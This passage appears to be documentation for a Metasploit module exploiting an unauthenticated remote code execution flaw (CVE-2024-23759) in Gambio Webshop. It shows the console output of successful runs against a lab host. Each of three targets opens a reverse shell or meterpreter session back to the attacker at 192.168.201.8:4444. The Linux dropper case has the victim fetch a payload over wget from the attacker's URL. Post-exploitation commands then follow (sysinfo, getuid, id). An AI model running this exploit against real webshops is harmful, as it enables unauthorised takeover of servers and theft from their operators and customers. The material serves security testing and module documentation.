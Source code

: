 ```msf
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.25
[+] Deleted GmacadJjQQOXMux.php
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.25:60348) at 2024-03-24 09:15:50 +0000

meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > pwd
/var/www
meterpreter > exit
```

### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```msf
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set target 1
target => 1
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted UJoQmnhL.php
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.25:50728) at 2024-03-24 09:17:46 +0000

uname -a
Linux cuckoo 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),29(audio)
exit
```

### Target 2 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```msf
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > set target 2
target => 2
msf6 exploit(multi/http/gambio_unauth_rce_cve_2024_23759) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:80 can be exploited.
[+] The target appears to be vulnerable. It looks like Gambio Webshop is running.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/ODk0gcrj
[*] Client 192.168.201.25 (Wget/1.21.2) requested /ODk0gcrj
[*] Sending payload to 192.168.201.25 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.25
[+] Deleted gJlhCqCPLrR.php
[*] Meterpreter session 3 opened (192.168.201.8:4444 -> 192.168.201.25:46426) at 2024-03-24 09:18:23 +0000
[*] Command Stager progress - 100.00% done (114/114 bytes)
```
